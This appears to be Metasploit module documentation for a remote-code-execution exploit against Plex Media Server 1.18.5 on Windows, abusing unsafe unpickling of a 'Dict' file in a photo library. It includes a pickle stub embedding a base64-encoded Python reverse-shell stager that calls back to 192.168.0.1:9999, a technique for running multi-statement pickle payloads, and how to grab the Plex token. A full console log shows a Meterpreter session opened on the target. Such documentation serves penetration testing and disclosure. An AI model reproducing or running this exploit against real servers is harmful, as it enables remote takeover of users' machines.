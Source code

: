 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex.

If an exploit fails, or is cancelled, `Dict` is
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

The plex server needs to be claimed by an account (free is ok), and the module `PLEX_TOKEN` option
needs permission to create a library, and upload files to it.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle

class EP(object):
    def __init__(self):
        pass
    def __reduce__(self):
        # for generating an approximately correct size and content, we use
        # msfvenom -p python/meterpreter/reverse_tcp LPORT=9999 LHOST=192.168.0.1
        # that payload is then added after runsource.
        # The original pre-meterp return would be
        # return (eval, ("__import__('code').InteractiveInterpreter().runsource(, '<input>', 'exec')",))
        return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMC4xJyw5OTk5KSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')[0]))\", '<input>', 'exec')",))

e = EP()
pickle.dumps(e)
```
### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

However, @acammack-r7 suggested a way around this. using the `InteractiveInterpreter`.
Credit to them for this original code:

```
>>> class Bad(object):
...      def __reduce__(self):
...              return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"print('ok')\", '<input>', 'exec')",))
... 
>>> x = Bad()
>>> s = pickle.dumps(x)
>>> pickle.loads(s)
ok
False
```

## Verification Steps

  1. Install the application on an internet-connected host
  2. Complete configuration in the browser that pops up
  3. Register/Connect it to a Plex account (Free or Plex Pass)
  4. Start msfconsole
  5. Do: ```use windows/http/plex_unpickle_dict_rce```
  6. Do: ```run```
  7. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.

There are multiple ways to obtain this value.  The easiest is most likely opening the
Console on your web browser (F12) and typing `window.localStorage.myPlexAccessToken`.
However, it can also be obtained from
[plex library files](https://support.plex.tv/articles/204059436-finding-an-authentication-token-x-plex-token/)
or by following [this comment](https://github.com/rapid7/metasploit-framework/pull/13741#issuecomment-649076121)

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `10` seemed to be OK, default is `15`.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

    ```
    [*] Processing plex.rb for ERB directives.
    resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
    resource (plex.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (plex.rb)> set lhost 1.1.1.1
    lhost => 1.1.1.1
    resource (plex.rb)> set PLEX_TOKEN aa1g1aa3aaHbAtPBsEG7
    PLEX_TOKEN => aa1g1aa3aaHbAtPBsEG7
    resource (plex.rb)> set verbose true
    verbose => true
    msf5 exploit(windows/http/plex_unpickle_dict_rce) > exploit
    
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [*] Gathering Plex Config
    [*] Server Name: EXPLOITABLE -win10
    [+] Server OS: Windows (10.0 (Build 16299))
    [+] Server Version: 1.18.5.2309-f5213a238
    [+] Camera Upload: 1
    [*] Using album name: TAtPGj
    [*] Adding new photo library
    [+] Created Photo Library: 163
    [*] Adding pickled Dict to library
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Sending stage (53755 bytes) to 2.2.2.2
    [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:51092) at 2020-07-03 14:13:08 -0400
    [*] Sleeping 15 seconds for server restart
    [*] Cleanup Phase: Reverting changes from exploitation
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Deleting Photo Library
    
    meterpreter > getuid
    Server username: WIN10PROLICENSE\windows
    meterpreter > sysinfo
    Computer        : win10prolicensed
    OS              : Windows 10 (Build 16299)
    Architecture    : x64
    System Language : en_US
    Meterpreter     : python/windows
    meterpreter > pwd
    \\?\C:\Users\Public\TAtPGj\Plex Media Server\Plug-in Support\Data\com.plexapp.system
    ```

